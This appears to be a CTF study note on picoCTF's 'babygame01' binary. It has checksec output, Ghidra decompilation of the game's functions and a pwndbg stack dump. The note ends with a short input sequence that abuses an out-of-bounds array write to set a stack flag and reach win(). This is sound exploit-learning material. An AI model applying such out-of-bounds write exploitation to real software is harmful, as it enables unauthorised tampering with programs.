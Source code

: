 # Lesson  
- `Ghidra`  
    - define "struct" with `Data Type Manager`  
    - how to edit decompile code
- understand an importance of reading assembly and decompiled code
    - read carefully  
    - run the program  
    - use debugger  
    - use rename and redifine functions on disassembler  

# Memo  
1. check  
```zsh
$ file game
game: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=02a3bb43121b1f6fbc2ab9154ab38a9427e19149, for GNU/Linux 3.2.0, not stripped
$
$ checksec --file=./game --output=json | jq .
    {
    "./game": {
        "relro": "partial",
        "canary": "yes",
        "nx": "yes",
        "pie": "no",
        "rpath": "no",
        "runpath": "no",
        "symbols": "yes",
        "fortify_source": "no",
        "fortified": "0",
        "fortify-able": "2"
    }
}
```

2. ghidra  
understand the logic  
- main  
A value for flag is on an address just before area[0].  
```c
undefined4 main(void)
{
    int input;
    undefined4 uVar1;
    int in_GS_OFFSET;
    Player *player;
    int iStack_aa8;
    char isFlag;  // point
    char area [2700]; // point
    int local_14;
    undefined *local_10;

    local_10 = &stack0x00000004;
    local_14 = *(int *)(in_GS_OFFSET + 0x14);
    init_player((Player *)&player);
    init_map(area,(Player *)&player);
    print_map(area,(Player *)&player);
    signal(2,sigint_handler);
    do {
        do {
        input = getchar();
        move_player((Player *)&player,(char)input,area);
        print_map(area,(Player *)&player);
        } while (player != (Player *)0x1d);
    } while (iStack_aa8 != 0x59);
    puts("You win!");
    if (isFlag != '\0') {  // point
        puts("flage");
        win();
        fflush(stdout);
    }
    uVar1 = 0;
    if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
        uVar1 = __stack_chk_fail_local();
    }
    return uVar1;
}
```
- init_player()  
```c
void init_player(Player *player)
{
    player->posVertical = 4;
    player->posHorizon = 4;
    player->field_0x8 = 0;
    return;
}
```
- init_map()
```c
void init_map(char *area,Player *player)
{
    int i;
    int j;

    for (i = 0; i < 0x1e; i = i + 1) {
        for (j = 0; j < 0x5a; j = j + 1) {
        if ((i == 0x1d) && (j == 0x59)) {
            area[0xa8b] = 'X';
        }
        else if ((i == player->posVertical) && (j == player->posHorizon)) {
            area[j + i * 0x5a] = player_tile;
        }
        else {
            area[j + i * 0x5a] = '.';
        }
        }
    }
    return;
}
```
- move_player()
```c
void move_player(Player *pos,char input,char *area)
{
    int iVar1;

    if (input == 'l') {
        iVar1 = getchar();
        player_tile = (char)iVar1;
    }
    if (input == 'p') {
        solve_round(area,pos);
    }
                        /* before move, put "." on exPos */
    area[pos->posHorizon + pos->posVertical * 0x5a] = '.'; // point
    if (input == 'w') {
        pos->posVertical = pos->posVertical + -1;
    }
    else if (input == 's') {
        pos->posVertical = pos->posVertical + 1;
    }
    else if (input == 'a') {
        pos->posHorizon = pos->posHorizon + -1;
    }
    else if (input == 'd') {
        pos->posHorizon = pos->posHorizon + 1;
    }
                        /* after move, put "player_tile" on current
                        Pos */
    area[pos->posHorizon + pos->posVertical * 0x5a] = player_tile; // point
    return;
}
```
- solver_round()
```c
void solve_round(char *area,Player *pos)
{
    while (pos->posHorizon != 0x59) {
        if ((int)pos->posHorizon < 0x59) {
        move_player(pos,100,area);
        }
        else {
        move_player(pos,0x61,area);
        }
        print_map(area,pos);
    }
    while (pos->posVertical != 0x1d) {
        if ((int)pos->posHorizon < 0x1d) {
        move_player(pos,0x77,area);
        }
        else {
        move_player(pos,0x73,area);
        }
        print_map(area,pos);
    }
    sleep(0);
    if ((pos->posVertical == 0x1d) && (pos->posHorizon == 0x59)) {
        puts("You win!");
    }
    return;
}
```

3. exploit  
The area is defined with a size of 2700 elements. It is area[2700].  
horizontal: aaaa  
vertical: wwww  
-> Now it's on area[0].  

- stack when "aaa" after "aaaawwww"  
    - pwndbg
    ```
    ──────────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────────────────────────────────────────────────── ► 0x804984e <main+234>    movzx  eax, byte ptr [ebp - 0xa9c]
    0x8049855 <main+241>    test   al, al
    0x8049857 <main+243>    je     main+288                     <main+288>
        ↓
    0x8049884 <main+288>    nop
    0x8049885 <main+289>    mov    eax, 0
    0x804988a <main+294>    mov    edx, dword ptr [ebp - 0xc]
    0x804988d <main+297>    sub    edx, dword ptr gs:[0x14]
    0x8049894 <main+304>    je     main+311                     <main+311>
        ↓
    0x804989b <main+311>    lea    esp, [ebp - 8]
    0x804989e <main+314>    pop    ecx
    0x804989f <main+315>    pop    ebx
    ──────────────────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────────────────00:0000│ esp 0xffffc400 ◂— 0x704c457f
    01:0004│-aa4 0xffffc404 ◂— 0x1d
    02:0008│-aa0 0xffffc408 ◂— 0x59 /* 'Y' */
    03:000c│-a9c 0xffffc40c ◂— 0x2e2e2e00
    04:0010│-a98 0xffffc410 ◂— 0x2e2e2e2e ('....')
    ... ↓        3 skipped
    ```
    Now, "test al al" is still 0, so "aaaa" is needed for the jump to win().  
    The coomand for win() is "aaaa"+"wwww"+"aaaa".

# Ref
- https://www.ta-oot.page/posts/ctf-writeups/picoctf2023/babygame01/
- https://www.ta-oot.page/posts/ctf-writeups/picoctf2023/babygame01/